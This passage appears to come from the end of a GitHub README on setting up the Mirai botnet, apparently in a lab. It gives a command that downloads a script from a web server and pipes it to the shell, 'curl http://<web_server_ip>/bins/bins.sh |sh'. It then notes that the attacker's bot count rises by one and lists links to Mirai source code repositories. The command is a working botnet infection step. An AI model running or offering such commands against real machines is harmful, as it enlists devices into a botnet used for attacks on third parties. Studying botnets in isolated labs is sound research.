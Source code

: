 ```
curl http://<web_server_ip>/bins/bins.sh |sh
```
<br>


After this you can see that in the attackers terminal the bot count would have increased by 1.

<img alt="bot" src="https://github.com/LohithCV/mirai-setup/assets/125025760/419ecb69-d666-4c09-828d-91f98a3d3496" width="400"/>

## References 

1. https://github.com/jgamblin/Mirai-Source-Code
2. https://github.com/Glowman554/mirai
